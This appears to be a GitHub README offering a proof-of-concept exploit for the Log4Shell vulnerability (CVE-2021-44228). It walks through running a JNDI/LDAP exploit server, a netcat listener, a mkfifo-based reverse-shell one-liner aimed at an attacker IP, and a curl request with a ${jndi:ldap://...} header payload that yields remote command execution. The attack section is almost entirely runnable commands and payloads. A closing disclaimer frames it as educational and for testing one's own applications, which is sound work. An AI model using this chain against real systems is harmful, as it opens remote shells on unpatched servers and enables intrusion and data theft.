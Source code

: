 # LOg4j

A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability.

Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.

## Proof-of-concept (POC)

#### Step 1 : Clone required repository

```bash
git clone https://github.com/christophetd/log4shell-vulnerable-app.git
git clone https://github.com/black9/Log4shell_JNDIExploit.git
```

#### Step 2 : Run Docker File which Include SpringBoot Vulnerable Application

```bash
cd log4shell-vulnerable-app
sudo docker run --rm -it -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

#### Step 3 : Run the LDAP Server and Http Server

```bash
cd Log4shell_JNDIExploit
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <Your Attacking Machine IP>
```

#### Step 4 : Run the netcat Listner where you get reverse shell

```bash
nc -lvp <Port you want for Listner>
```

#### Step 5 Curl the Application with Malicious Code

```bash
[+] Step 1 : goto https://ssl-proxy.my-addr.org/myaddrproxy.php/https/www.revshells.com/
[+] Step 2 : Enter your Attacking Machine IP and Netcat Port which you have used before
[+] Step 3 : Select nc mkfifo in shell Type
[+] Step 4 : Copy the command which look like "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.119.21.67 1188 >/tmp/f"
[+] Step 5 : goto https://gchq.github.io/CyberChef/
[+] Step 6 : Select To Base64 and Enter "A-Za-z0-9-_" in Alphabet
[+] Step 7 : Paste the command you had copied from Reverse Shell Generator and Paste it in Input Box
[+] Step 8 : Copy the String from the Output box that is the Base64 encoding of the Malicious Command which will lead you to Remote shell
[+] Step 9 : Form a Curl request in this manner ⇩
    curl -H 'X-Api-Version: ${jndi:ldap://<Attacking Machine IP>:1389/Basic/Command/Base64/<Base64 Command you just copied Step 8>}' http://localhost:8080
```

## Disclaimer

This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: https://log4shell.tools/).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.
